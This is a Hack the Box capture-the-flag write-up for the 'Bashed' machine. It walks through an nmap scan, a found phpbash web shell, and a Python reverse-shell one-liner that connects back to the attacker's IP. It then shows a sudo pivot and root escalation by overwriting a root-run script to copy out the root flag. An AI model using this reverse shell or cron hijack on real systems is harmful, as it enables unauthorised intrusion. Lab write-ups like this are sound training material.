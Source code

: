 ```yaml
---
layout: post
title: Hack the Box - Bashed
subtitle: Easy Linux box with a backdoor and misconfigured permissions
#cover-img: /assets/img/path.jpg
thumbnail-img: /assets/img/htblogo.webp
share-img: /assets/img/htblogo.webp
tags: [htb, writeup]#
---
```


Today I'll do a small quick writeup on the [Bashed](https://www.hackthebox.eu/home/machines/profile/118) Hack the Box machine. This was an Easy, but quite interesting box. Let's get on with it!

## Recon

As always, let's start with nmap

```console
nmap -sV -sC -oN bashed.nmap bashed.htb
```

```console
# Nmap 7.80 scan initiated Mon Oct 19 13:27:40 2020 as: nmap -sV -sC -oN bashed.nmap bashed.htb
Nmap scan report for bashed.htb (10.10.10.68)
Host is up (0.045s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Oct 19 13:27:49 2020 -- 1 IP address (1 host up) scanned in 9.62 seconds
```

Does not seem to be much open, just an Apache on port 80 serving PHP files

## Web port

On the web we can find a post explaining that [phpbash](https://github.com/Arrexel/phpbash) is installed on this machine. This is a direct reverse shell, so the obvious step to get our initial foothold is to find its path.

![Site on 80](/assets/img/2020-10-21-18-47-56.png)

After launching gobuster, we get that the reverse shell is at the following path: `http://bashed.htb/dev/phpbash.php`. (Sorry I forgot to write down the exact command.)

![webshell](/assets/img/2020-10-21-18-52-17.png)

There we can run a basic python reverse shell to our machine. Do not forget to set up netcat on our host!

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.33",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Privilege escalation

If we check with sudo we can see that we can run any command as the user `scriptmanager`

```console
$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

```console
$ sudo -u scriptmanager python -c 'import pty; pty.spawn("/bin/sh")'
$ whoami
whoami
scriptmanager
```

or also `sudo -u scriptmanager bash -i`

There is a folder in `/scripts` that has a python script that is being run as sudo every minute (we can see that by looking at the created file timestamp and permissions). We can modify `test.py` since we have write permissions on this folder, wait a minute and our code will be run as root!

```bash
echo "import os; os.system('cp /root/root.txt /scripts && chmod 777 /scripts/root.txt ');" > test.py
```

## Conclusions

This was a quick and easy machine! I am aware that this was not the best writeup, since the notes i took were not with doing this in mind. I hope the next one is way better.
